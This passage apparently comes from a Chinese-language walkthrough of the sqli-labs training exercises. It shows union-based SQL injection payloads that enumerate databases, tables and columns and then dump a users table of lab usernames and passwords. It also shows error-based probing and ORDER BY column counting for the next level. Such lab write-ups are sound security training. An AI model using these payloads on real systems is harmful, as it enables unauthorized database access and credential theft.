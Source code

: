 3、判断回显位为2，3,查用户、数据库名、数据库版本

```
?id=-1 union select 1,user(),database()
-->Your Login name:root@localhost
    Your Password:security
```

4、当前数据库所有表名

```
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

5、查看users表

```
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

6、查看username和password

```
?id=-1 union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-3

1、判断出为字符型注入，且为`')`闭合

```
?id=1' 
-->报错：  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 

?id=1')
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') LIMIT 0,1' at line 1 

?id=1') --+
-->页面正常
```

2、确定列数为3

```
?id=1') order by 1,2,3 --+
-->正常

?id=1') order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```
